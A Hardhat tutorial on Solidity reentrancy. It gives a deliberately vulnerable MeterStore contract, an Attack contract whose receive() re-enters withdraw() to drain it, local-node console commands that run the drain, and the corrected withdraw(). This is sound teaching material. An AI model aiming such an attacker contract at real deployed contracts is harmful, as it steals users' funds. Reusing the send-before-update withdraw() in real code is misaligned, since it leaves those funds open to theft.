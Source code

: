 # Hardhat reentrancy attack tutorial

## Introduction
The Reentrancy attack is one of the most destructive attacks in the Solidity smart contract. A reentrancy attack occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds. (https://hackernoon.com/hack-solidity-reentrancy-attack)

## Create a new Hardhat project
```shell
npx hardhat
```
Select "Create a basic sample project" from the menu. Choose the default values for the next configuration questions.

## Create the smart contract with the reentrancy vulnerability
First delete the contracts/Greeter.sol contract file that hardhat created.
Next create a new file named contracts/MeterStore.sol with the following code:

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

contract MeterStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send MTR");

        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Create a new file named Attack.sol and paste the following code.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import "./MeterStore.sol";
import "hardhat/console.sol";

contract Attack {
    MeterStore public meterStore;

    constructor(address _meterStoreAddress) {
        meterStore = MeterStore(_meterStoreAddress);
    }

    receive() external payable {
      console.log("Received MTR");
        if (address(meterStore).balance >= 1 ether) {
            meterStore.withdraw();
        }
    }    

    function attack() external payable {
        require(msg.value >= 1 ether);
        meterStore.deposit{value: 1 ether}();
        meterStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Run a local node
```shell
npx hardhat node
```

## Deploy the contracts
Create a new file named scripts/deploy.js

```shell
npx hardhat run --network localhost scripts/deploy.js
```

## Run the hardhat console
```shell
npx hardhat console --network localhost
```

## Send MTR from accounts 1 & 2 to the MeterStore contract address from the command line
```shell
const MeterStore = await ethers.getContractFactory('MeterStore');
const meterStore = await MeterStore.attach('0x4826533B4897376654Bb4d4AD88B7faFD0C98528');

const [owner, acc1, accAttacker] = await ethers.getSigners();
await meterStore.connect(owner).deposit({value: ethers.utils.parseEther('1')});
await meterStore.connect(acc1).deposit({value: ethers.utils.parseEther('1')});

console.log('MeterStore balance: ' + await meterStore.getBalance());

const Attack = await ethers.getContractFactory('Attack');
const attack = await Attack.attach('0x99bbA657f2BbC93c02D617f8bA121cB8Fc104Acf');
console.log('Attack balance: ' + await attack.getBalance());
await attack.connect(accAttacker).attack({value: ethers.utils.parseEther('1')});

console.log('Attack balance: ' + await attack.getBalance());
console.log('MeterStore balance: ' + await meterStore.getBalance());
```

## Preventative Technique
As you can see the MeterStore contract balance is now 0. To avoid reentrancy attacks ensure all state changes happen before calling external contracts. The withdraw function in the MeterStore contract should be modified as follows:

```solidity
function withdraw() public {
  uint bal = balances[msg.sender];
  require(bal > 0);

  balances[msg.sender] = 0;
  (bool sent, ) = msg.sender.call{value: bal}("");
  require(sent, "Failed to send MTR");
}
```
